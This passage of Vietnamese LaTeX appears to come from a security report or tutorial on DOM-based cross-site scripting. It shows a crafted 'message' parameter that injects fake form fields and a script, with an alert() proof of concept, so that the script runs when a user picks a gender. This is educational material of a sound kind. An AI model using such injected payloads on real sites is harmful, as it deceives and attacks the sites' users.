Khi truy cập đến thì thấy một Form rất bình thường như ở hình \ref{fig:xss_dombased_1}.

\begin{figure}[ht!]
\centering
\includegraphics[scale=0.7]{dombased-xss-1}
\caption{Giao diện form bình thường của site bị khai thác bởi lỗi DOM Based XSS}
\label{fig:xss_dombased_1}
\end{figure}

Nhưng thay vì truyền:

\begin{lstlisting}
message=Please fill in the form
\end{lstlisting}

Thì truyền vào đoạn sau:

\begin{lstlisting}[language=HTML]
message=<label>Gender</label><div class="col-sm-4">MaleFemale</div>function show(){alert();}
\end{lstlisting}

Sau đó form bị biến đổi như ở hình \ref{fig:xss_dombased_2}.

\begin{figure}[ht!]
\centering
\includegraphics[scale=0.7]{dombased-xss-2}
\caption{Giao diện form bị chỉnh sửa của site bị khai thác bởi lỗi DOM Based XSS}
\label{fig:xss_dombased_2}
\end{figure}

Người dùng sẽ chẳng chút nghi ngờ với một form ``bình thường'' như thế này, và khi lựa chọn giới tính, Script sẽ được thực thi như ở hình \ref{fig:xss_dombased_3}.

\begin{figure}[ht!]
\centering
\includegraphics[scale=0.7]{dombased-xss-3}
\caption{Đoạn script đã chạy trên site bị khai thác bởi lỗi DOM Based XSS}
\label{fig:xss_dombased_3}
\end{figure}

Kịch bản khai thác của lỗi này giống như Reflected XSS, xem ở hình \ref{fig:xss_reflect}.

\end{document}